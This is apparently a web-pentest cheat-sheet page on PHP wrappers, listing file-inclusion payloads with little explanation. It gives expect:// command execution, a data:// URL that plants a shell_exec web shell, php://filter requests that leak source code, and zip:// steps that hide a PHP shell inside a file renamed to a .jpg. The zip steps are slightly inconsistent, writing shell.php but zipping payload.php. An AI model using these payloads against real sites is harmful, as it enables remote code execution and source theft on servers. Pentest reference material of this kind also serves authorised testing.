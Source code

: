 ```yaml
---
title: "Wrappers"
draft: false
images: []
menu:
  docs:
    parent: "Web Pentest"
weight: 100
toc: true
---
```


### PHP WRAPPER EXPECT
```
http://ex.com/index.php?page=expect://whoami
```
### PHP WRAPPER DATA://
```
http://www.ex.com/index.php?page=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>
```
### PHP WRAPPER FILTER://
```
http://ex.com/index.php?page=php://filter/read=string.rot13/resource=index.php
http://ex.com/index.php?page=php://filter/convert.base64-encode/resource=index.php
```
### PHP WRAPPER ZIP://
```
echo "<?php \$_GET['param1'](\$_GET['param2']); ?>" > shell.php
zip -0 payload.zip payload.php
mv payload.zip shell.jpg;
rm payload.php
```
```
http://ex.com/index.php?page=zip://shell.jpg%23payload.php
```